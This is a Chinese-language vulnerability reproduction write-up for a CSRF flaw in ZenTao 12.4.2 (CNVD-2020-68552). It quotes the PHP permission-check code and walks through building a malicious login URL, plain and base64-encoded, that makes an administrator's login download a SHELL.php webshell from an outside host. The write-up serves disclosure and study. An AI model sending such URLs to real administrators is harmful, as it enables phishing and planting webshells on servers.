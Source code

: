 # 禅道 12.4.2 CSRF漏洞 CNVD-2020-68552

## 漏洞描述

可以针对禅道的部分模块制造恶意URL地址发送给管理员，当管理员登录时会执行模块的恶意请求,可用于进行钓鱼请求

## 漏洞影响

```
禅道 <= 12.4.2版本
```

## 环境搭建

百度下12.4.2的禅道环境按步骤安装下载即可

[禅道官方网站](https://www.zentao.net/)

![](images/202202162307092.png)

调用接口查询版本信息

```plain
http://xxx.xxx.xxx.xxx/www/index.php?mode=getconfig
```

![](images/202202162307154.png)

## 漏洞复现

这里利用 禅道 小于12.4.2 文件上传漏洞 CNVD-C-2020-121325(可参照上一篇文章) 来构造一个恶意的URL地址

查看**module/common/model.php**的**checkPriv**方法

```php
public function checkPriv()
{
    $module = $this->app->getModuleName();
    $method = $this->app->getMethodName();
    if($this->app->isFlow)
    {
        $module = $this->app->rawModule;
        $method = $this->app->rawMethod;
    }

    if(!empty($this->app->user->modifyPassword) and (($module != 'my' or $method != 'changepassword') and ($module != 'user' or $method != 'logout'))) die(js::locate(helper::createLink('my', 'changepassword')));
    if($this->isOpenMethod($module, $method)) return true;
    if(!$this->loadModel('user')->isLogon() and $this->server->php_auth_user) $this->user->identifyByPhpAuth();
    if(!$this->loadModel('user')->isLogon() and $this->cookie->za) $this->user->identifyByCookie();

    if(isset($this->app->user))
    {
        if(!defined('IN_UPGRADE')) $this->session->user->view = $this->loadModel('user')->grantUserView();
        $this->app->user = $this->session->user;

        if(!commonModel::hasPriv($module, $method)) $this->deny($module, $method);
    }
    else
    {
        $referer  = helper::safe64Encode($this->app->getURI(true));
        die(js::locate(helper::createLink('user', 'login', "referer=$referer")));
    }
}
```

这里的代码片段为鉴权函数，可以看到最后一句代码

```php
$referer  = helper::safe64Encode($this->app->getURI(true));
            die(js::locate(helper::createLink('user', 'login', "referer=$referer")));
```

所以当调用当前权限不允许的方法时，会进行跳转，并在**$referer**参数缓存调用的方法URL，当使用这个跳转的地址登录时则会直接调用此方法

**URL地址构造过程**

```plain
http://xxx.xxx.xxx.xxx/www/index.php?m=user&f=login&referer=/www/index.php.m=client&f=download&version=1&link=HTTP://peiqi.tech/SHELL.php
```

将**link参数**base64加密

```plain
http://xxx.xxx.xxx.xxx/www/index.php?m=user&f=login&referer=/www/index.php.m=client&f=download&version=1&link=SFRUUDovL3BlaXFpLnRlY2gvU0hFTEwucGhw
```

将**referer参数**以 . 做分割base64加密两边字符

```plain
http://xxx.xxx.xxx.xxx/www/index.php?m=user&f=login&referer=L3d3dy9pbmRleC5waHA.bT1jbGllbnQmZj1kb3dubG9hZCZ2ZXJzaW9uPTEmbGluaz1TRlJVVURvdkwzQmxhWEZwTG5SbFkyZ3ZVMGhGVEV3dWNHaHc=
```

![](images/202202162307966.png)

将这个URL地址发送给管理员，当管理员登录时则会触发恶意文件下载

![](images/202202162308602.png)